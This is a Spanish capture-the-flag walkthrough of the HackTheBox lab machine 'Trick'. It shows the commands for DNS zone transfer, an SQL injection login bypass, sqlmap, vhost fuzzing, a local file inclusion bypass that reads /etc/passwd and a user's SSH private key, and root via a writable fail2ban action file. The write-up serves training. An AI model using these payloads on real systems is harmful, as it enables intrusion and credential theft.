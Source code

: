 # Máquina "Trick" de HackTheBox

## Características

- Linux
- Fácil
- DNS enumeration
- Domain zone transfer attack (AXFR)
- SQL injection (SQLI)
- Manual blind SQLI with conditional responses [Python Scripting - AutoPwn]
- Local File Inclusion (LFI) + Wrappers
- SMTP Enumeration (VRFY - Discovering valid users)
- LFI to RCE - Nginx Log Poisoning
- Abusing Sudoers Privilege (fail2ban command)

## Útil en

- eWPT
- eWPTv2
- OSWE
- OSCP

## Reconocimiento

IP: 10.10.11.166

Escaneo inicial de puertos:
```bash
nmap -p- --min-rate 10000 10.10.11.166
```

```
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
53/tcp open  domain
80/tcp open  http
```

Escaneo más detallado:
```bash
nmap -p 22,25,53,80 -sCV 10.10.11.166
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Análisis inicial

Varios puertos están abiertos: 22 (SSH), 25 (SMTP), 53 (DNS) y 80 (HTTP). 
Al visitar el puerto 80, vemos un sitio web estático.

![Web inicial](/secciones/posts/imagenes/trick/web80.webp)

Agregué `trick.htb` a `/etc/hosts`. Como tenemos el puerto 53 (DNS) abierto, comencé a investigar ese servicio. Con un poco de esfuerzo pude hacer una transferencia de zona que me dio 2 subdominios diferentes.

```bash
dig @trick.htb axfr trick.htb +answer
```

Agregué ambos subdominios a la configuración del host y visité el host virtual `preprod-payroll.trick.htb`.

![Web virtual host](/secciones/posts/imagenes/trick/webvhost.webp)

## Explotación de SQL Injection

Vemos una página de inicio de sesión. Pude omitir la autenticación e iniciar sesión como administrador con una simple inyección SQL:

Usuario: `admin' or 1=1 -- -`  
Contraseña: cualquiera (en este caso usé "kavigihan")

![Login bypass](/secciones/posts/imagenes/trick/login.webp)

Como confirmé que había inyección SQL, pasé la solicitud de inicio de sesión a sqlmap. Copié la solicitud a `login.req` y ejecuté:

```bash
sqlmap -r login.req --risk=3 --level=3 --threads=10
```

Y encontró una inyección SQL basada en tiempo.

![SQLi detection](/secciones/posts/imagenes/trick/sqli.webp)

## Descubrimiento de subdominios

Uno de los vhosts era `preprod-payroll.trick.htb`, lo que me hizo pensar que podría haber otros vhosts con prefijo "preprod". Utilicé ffuf para enumerar:

```bash
ffuf -u http://$IP/ -H 'Host: preprod-FUZZ.trick.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 1697
```

Encontré otro vhost llamado `preprod-marketing.trick.htb`. Lo agregué a la configuración de hosts y visité el sitio.

![Marketing site](/secciones/posts/imagenes/trick/web2.webp)

## Explotación de LFI

En el sitio de marketing, noté el parámetro `?page=` usado para incluir archivos. Probé un vector LFI típico (`../../../etc/passwd`) pero no funcionó. Los filtros PHP tampoco funcionaron. Finalmente encontré que esta técnica de bypass funcionaba:

```
....//....//....//etc/passwd
```

![LFI success](/secciones/posts/imagenes/trick/lfi.webp)

La técnica funciona porque `index.php` probablemente elimina todos `../` del parámetro. Con `....//`, cuando se eliminan `../`, queda `../`.

Para leer archivos usé:

```bash
curl http://preprod-marketing.trick.htb/index.php?page=....//....//....//etc/passwd --path-as-is
```

Encontré un usuario llamado `michael` y luego obtuve su clave privada SSH:

```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa' --path-as-is
chmod 600 id_rsa
ssh michael@10.10.11.166 -i id_rsa
```

## Escalada de privilegios

Como Michael, ejecuté `sudo -l` y descubrí que podía ejecutar `fail2ban restart` como root sin contraseña. Investigando encontré una forma de explotar esto:

[Artículo sobre abuso de fail2ban](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)

Verifiqué que teníamos acceso de escritura en `/etc/fail2ban/action.d`:

![Grupos de usuario](/secciones/posts/imagenes/trick/groups.webp)

El ataque consiste en editar un archivo de configuración que fail2ban usa para prohibir acceso a servicios. Cambiamos el comando que se ejecuta cuando ocurre un bloqueo.

Copié `/etc/fail2ban/action.d/iptables-multiport.conf` a `/tmp` y lo edité:

![Edición del archivo](/secciones/posts/imagenes/trick/edit.webp)

Luego lo moví de vuelta:

```bash
mv /tmp/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```

Después de reiniciar fail2ban, el bit SUID (+S) se estableció en `/bin/bash`. Ejecuté `bash -p` y obtuve acceso como root, pudiendo buscar la flag final.

## Nota final

Algunos de los writeups en esta página pueden tener contenido de otras páginas o pocas imágenes, debido a que en algunas máquinas no tomé apuntes completos o capturas de pantalla. He decidido buscar varios writeups y agregar lo mejor explicado en cada uno. 